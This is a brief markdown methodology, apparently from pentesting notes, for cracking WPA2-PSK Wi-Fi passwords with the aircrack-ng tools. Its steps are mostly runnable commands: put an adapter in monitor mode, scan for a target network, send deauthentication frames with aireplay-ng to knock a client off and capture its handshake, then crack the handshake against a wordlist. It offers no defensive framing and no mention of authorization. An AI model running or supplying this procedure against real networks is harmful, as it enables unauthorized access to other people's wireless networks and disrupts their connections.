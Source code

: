 # wifi

This method can be use to crack **WPA2-PSK** that utilizes a **pre-shared-key for authentication**.
## Methodology

### Step1: start adapter on monitor mode
1. Adapter check: `iwconfig`
   1. Kill active process: `airmon-ng check kill`
2. Start adapter on monitor mode: `airmon-ng start wlan0`
3. Start basic scan: `airodump-ng INTERFACE`
   1. Note down BSSID, CHANNEL, ESSID

## Step2: start attack

1. start focussed scan: `airodump-ng INTERFACE -c CHANNEL --bssid BSSID [-w FILE]`
2. Should see traffic being recorded. Our aim is to capture a connection.
3. Send DeAuth: `aireplay-ng INTERFACE -0 1 [-c STATION-TO-DEAUTH]`
   1. `-0 1` means to deauth once.
4. Capture the connection

## Step3: Cracking

1. `aircrack-ng FILE -b BSSID -w WORDLIST`
